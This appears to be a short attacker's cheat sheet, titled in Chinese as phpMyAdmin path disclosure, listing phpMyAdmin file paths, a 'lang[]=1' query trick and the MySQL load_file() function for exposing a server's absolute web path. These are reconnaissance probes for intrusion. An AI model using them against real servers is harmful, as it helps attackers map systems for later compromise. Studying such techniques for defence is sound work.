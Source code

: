 # Phpmyadmin爆路径

'''
/phpmyadmin/libraries/lect_lang.lib.php
/phpMyAdmin/index.php?lang[]=1
/phpMyAdmin/phpinfo.php
load_file()
/phpmyadmin/themes/darkblue_orange/layout.inc.php
/phpmyadmin/libraries/select_lang.lib.php
/phpmyadmin/libraries/lect_lang.lib.php
/phpmyadmin/libraries/mcrypt.lib.php
'''